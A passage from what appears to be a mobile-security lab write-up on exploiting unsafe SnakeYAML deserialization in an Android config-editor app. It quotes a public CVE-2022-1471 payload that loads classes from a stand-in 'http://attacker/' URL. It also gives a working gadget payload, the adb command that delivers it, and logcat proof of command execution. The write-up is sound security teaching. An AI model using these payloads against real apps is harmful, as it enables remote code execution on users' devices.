6. SnakeYAML resolves the explicit Java tag and instantiates the gadget.
7. The gadget constructor executes the supplied command.
7. Why The Generic ScriptEngineManager Payload Is Not Needed Here
Public CVE-2022-1471 writeups often use payloads such as:
!!javax.script.ScriptEngineManager [
!!java.net.URLClassLoader [[
!!java.net.URL ["http://attacker/"]
]]
]That payload is a generic JDK gadget chain. It relies on class loading and service/provider discovery behavior.
This lab is easier because the APK itself already contains a direct gadget:
YAML tag -> LegacyCommandUtil(String) -> exec()No indirect JDK gadget is necessary.
8. Payload Design For This Lab
Parse-check payload
A harmless YAML payload can be used to verify the download and parse path: payload-check.yml
name: test
value: 123
items:
- one
- two
meta:
source: local-host-8686
purpose: verify-download-and-parseCommand-execution payload
The simplest confirmed payload was a log-based proof:
payload-rce-log.yml
!!com.mobilehackinglab.configeditor.LegacyCommandUtil "/system/bin/log -t RCE_POC reached"This form is preferable for the lab because:
- it uses the actual app-local gadget
- it avoids shell metacharacters and redirection
- it fits
Runtime.exec(String)cleanly - it leaves a file artifact that can be checked on-device
9. Practical Validation
The exploitation path was validated in two stages.
Stage 1: Delivery and parsing
payload-check.yml was loaded through the remote VIEW path and displayed correctly in the UI. That confirmed:
- the
VIEWintent route works - the emulator can reach the host via
10.0.2.2:8686 - the app downloads the file successfully
loadYaml()andyaml.load()are reached
Stage 2: Command execution
A gadget payload using LegacyCommandUtil was then loaded and produced the following log evidence:
adb shell am start -n com.mobilehackinglab.configeditor/.MainActivity -a android.intent.action.VIEW -d "http://10.0.2.2:8686/payload-rce.yml" -t "application/yaml"Check adb logcat:
04-17 13:36:07.373 566 1803 I ActivityTaskManager: START u0 {act=android.intent.action.VIEW dat=http://10.0.2.2:8686/... typ=application/yaml flg=0x10000000 cmp=com.mobilehackinglab.configeditor/.MainActivity} from uid 0
04-17 13:36:07.385 566 1482 W ActivityTaskManager: Tried to set launchTime (0) < mLastActivityLaunchTime (16823541)
04-17 13:36:07.473 369 409 D goldfish-address-space: claimShared: Ask to claim region [0x3f3438000 0x3f3e1c000]
04-17 13:36:07.483 369 409 D goldfish-address-space: claimShared: Ask to claim region [0x3f73ec000 0x3f7dd0000]
04-17 13:36:07.490 369 409 D goldfish-address-space: claimShared: Ask to claim region [0x3f54d9000 0x3f5ebd000]
04-17 13:36:07.543 566 592 I ActivityTaskManager: Displayed com.mobilehackinglab.configeditor/.MainActivity: +169ms
04-17 13:36:07.562 8655 8674 D EGL_emulation: app_time_stats: avg=3253.92ms min=1.78ms max=35050.13ms count=11
04-17 13:36:07.580 1344 1344 I GoogleInputMethodService: GoogleInputMethodService.onFinishInput():3420
04-17 13:36:07.581 1344 1344 I GoogleInputMethodService: GoogleInputMethodService.onStartInput():2002
04-17 13:36:07.582 1344 1344 I DeviceUnlockedTag: DeviceUnlockedTag.notifyDeviceLockStatusChanged():31 Notify device unlocked.
04-17 13:36:07.984 566 1803 D AutofillSession: Set the response has expired.
04-17 13:36:08.399 8960 8960 I RCE_POC : reachedThat confirms:
- SnakeYAML accepted the explicit Java tag
- the tagged scalar node was mapped into
LegacyCommandUtil(String) Runtime.getRuntime().exec(...)was reached successfully
10. Conclusion
The root cause of the lab is unsafe SnakeYAML deserialization of attacker-controlled YAML.
The exploitation path is straightforward because the APK contains an ideal local gadget. The attacker only needs to deliver a tagged scalar YAML object to yaml.load(...), and SnakeYAML does the rest:
Untrusted YAML
-> explicit Java tag
-> class resolution
-> constructor invocation
-> Runtime.exec()The most important takeaway is that the dangerous part is not merely loading YAML from an external source. The real issue is allowing untrusted YAML to control Java type resolution during deserialization.